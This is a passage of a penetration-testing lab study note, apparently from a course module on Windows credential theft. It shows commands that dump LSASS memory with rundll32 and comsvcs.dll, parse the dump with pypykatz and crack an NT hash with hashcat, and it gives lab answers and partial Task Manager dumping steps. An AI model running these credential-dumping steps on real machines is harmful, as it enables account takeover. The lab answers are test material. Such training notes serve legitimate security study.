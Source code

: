 b) Rundll32.exe & Comsvcs.dll -> Rundll32.exe is cmd utility for dumping lsass memory, first we need to find ProcessID (PID) of lsass.exe (tasklist /svc)

c) creating lsass.dmp using powershell -> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full

d) PYPYKATZ -> pypykatz lsa minidump /home/peter/Documents/lsass.dmp



Then we can crack the NT Hash with Hashcat

`sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt`

#### Questions

**What is the name of the executable file associated with the Local Security Authority Process?**

<mark style="color:green;">**lsass.exe**</mark>

**Apply the concepts taught in this section to obtain the password to the Vendor user account on the target. Submit the clear-text password as the answer. (Format: Case sensitive)**

* Connect using RDP
* Task manager
  *   LSASS -> right-click -> Create dump file

      <figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

      <figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
*   File transfer to our attack Linux machine from Windows RDP...
